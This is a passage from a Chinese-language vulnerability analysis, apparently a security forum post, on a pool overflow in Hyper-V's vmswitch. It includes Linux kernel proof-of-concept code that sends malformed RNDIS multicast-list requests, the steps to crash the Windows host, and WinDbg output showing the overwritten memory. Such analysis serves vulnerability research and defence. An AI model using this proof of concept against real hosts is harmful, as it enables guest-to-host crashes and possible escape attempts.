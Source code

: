 ```
  set = &request->request_msg.msg.set_req;
  set->oid = 0x01010209; // OID_802_3_MULTICAST_LIST
  set->info_buflen = extlen + 5;
  set->info_buf_offset = sizeof(struct rndis_set_request);
  set->dev_vc_handle = 0;
  ret = rndis_filter_send_request(rdev, request); //将数据发送至宿主机
  if (ret != 0)
    goto cleanup;
  t = wait_for_completion_timeout(&request->wait_event, 5*HZ);
  if (t == 0)
    return -ETIMEDOUT;
  else {
    set_complete = &request->response_msg.msg.set_complete;
    if (set_complete->status != RNDIS_STATUS_SUCCESS) {
      printk(KERN_INFO "failed to set multicast list: 0x%x\n",
        set_complete->status);
      ret = -EINVAL;
    }
 }
cleanup:
  put_rndis_request(rdev, request);
  return ret;
}

```

         从 PoC 中的代码可以看出，新增的函数 rndis_pool_overflow 连续发送了两次数据，上面代码中设置 set->oid = 0x01010209; // OID_802_3_MULTICAST_LIST 是为了保证虚拟机传来的数据能走到 vmswitch! VmsMpCommonPvtHandleMulticastOids 函数。两次发送的数据中，set->info_buflen 字段的值分别为 extlen，和 extlen+5，印证了上面分析过程中的 5 字节溢出。

         保存文件，并且重新编译内核。重启 Linux 宿主机后，Linux 系统正常启动，并没有什么异常，但是此时已经发生了溢出，现在只需要关掉虚拟机，让 Windows 内核回收被溢出的那块内存，便会发生蓝屏，如图 1-35。

![](https://bbs.pediy.com/upload/attach/201711/624619_hxchq6o8wxk3ioh.png)

图 1-35

5.3. 调试

         在 WinDbg 中设置 VmsMpCommonPvtHandleMulticastOids+144f8 处断点，分别观察两次调用 VmsMpCommonPvtHandleMulticastOids 函数后调用 memmove 前后的内存对比。

```
3: kd> bp vmswitch!VmsMpCommonPvtHandleMulticastOids+0x144f8
3: kd> g
Breakpoint 0 hit
vmswitch!VmsMpCommonPvtHandleMulticastOids+0x144f8:
fffff801`b3940b38 e8c396ffff      call    vmswitch!memcpy (fffff801`b393a200)
3: kd> db rcx-10
ffffe001`7501d950  10 00 07 02 56 4d 63 6d-33 eb 5f 64 e6 5b 43 5e  ....VMcm3._d.[C^
ffffe001`7501d960  48 48 48 48 48 48 48 48-48 48 48 48 48 48 48 48  HHHHHHHHHHHHHHHH
ffffe001`7501d970  48 48 48 48 48 48 48 48-48 48 48 48 48 48 48 48  HHHHHHHHHHHHHHHH
ffffe001`7501d980  48 48 48 48 48 48 48 48-00 00 00 00 00 00 00 00  HHHHHHHH........
ffffe001`7501d990  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`7501d9a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`7501d9b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`7501d9c0  07 00 08 04 45 76 65 6e-a3 eb 5f 64 e6 5b 43 5e  ....Even.._d.[C^
3: kd> p
vmswitch!VmsMpCommonPvtHandleMulticastOids+0x144fd:
fffff801`b3940b3d 90              nop
3: kd> db ffffe001`7501d950
ffffe001`7501d950  10 00 07 02 56 4d 63 6d-33 eb 5f 64 e6 5b 43 5e  ....VMcm3._d.[C^
ffffe001`7501d960  49 49 49 49 49 49 49 49-49 49 49 49 49 49 49 49  IIIIIIIIIIIIIIII
ffffe001`7501d970  49 49 49 49 49 49 49 49-49 49 49 49 49 49 49 49  IIIIIIIIIIIIIIII
ffffe001`7501d980  49 49 49 49 49 49 49 49-49 49 49 49 49 49 49 49  IIIIIIIIIIIIIIII
ffffe001`7501d990  49 49 49 49 49 49 49 49-49 49 49 49 49 49 49 49  IIIIIIIIIIIIIIII
```